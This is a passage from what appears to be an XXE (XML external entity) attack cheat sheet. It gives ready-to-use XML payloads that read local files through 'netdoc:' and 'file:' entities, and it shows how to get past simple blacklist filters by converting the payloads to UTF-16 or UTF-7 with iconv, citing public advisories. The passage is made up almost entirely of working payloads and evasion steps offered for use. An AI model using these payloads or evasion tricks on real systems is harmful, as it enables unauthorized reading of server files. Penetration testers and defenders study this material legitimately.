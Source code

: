 ```xml
<?xml version="1.0"?>  
<!DOCTYPE data [  
<!ELEMENT data (#PCDATA)>  
<!ENTITY file SYSTEM "netdoc:/sys/power/image_size">  
]>  
<data>&file;</data>
```
  
[Source: @Nirgoldshlager](https://twitter.com/Nirgoldshlager/status/618417178505814016)  
  

### XXE Attack using UTF-16 (Dawid Golunski)

Some simple blacklisting countermeasures can probably bypassed by changing the default XML charset (which is UTF-8), to a different one, for example, UTF-16  
  
```xml
<?xml version="1.0" encoding="UTF-16"?>  
<!DOCTYPE data [  
<!ELEMENT data (#PCDATA)>  
<!ENTITY file SYSTEM "file:///sys/power/image_size">  
]>  
<data>&file;</data>
```
  
The above file can be simply created with a texteditor.  
To convert it to UTF-16, you can use the linux tool iconv  
  
```xml
cat file.xml | iconv -f UTF-8 -t UTF-16 > file_utf16.xml 
```
  
[Source,](http://legalhackers.com/advisories/eBay-Magento-XXE-Injection-Vulnerability.txt) Thanks to [@ilmila](https://twitter.com/ilmila/status/705077149091364864)  
  

### XXE Attack using UTF-7

The same trick can be applied to UTF-7 as-well.  
  
```xml
<?xml version="1.0" encoding="UTF-7" ?>  
<!DOCTYPE data [  
<!ELEMENT data (#PCDATA)>  
<!ENTITY file SYSTEM "file:///sys/power/image_size">  
]>  
<data>&file;</data>
```
  
```shell
cat file.xml | iconv -f UTF-8 -t UTF-7 > file_utf7.xml  
```
  
[Source,](http://legalhackers.com/advisories/eBay-Magento-XXE-Injection-Vulnerability.txt) Thanks to [@ilmila](https://twitter.com/ilmila/status/705077149091364864)  
  

# Evolved XXE Attacks - Direct Feedback Channel
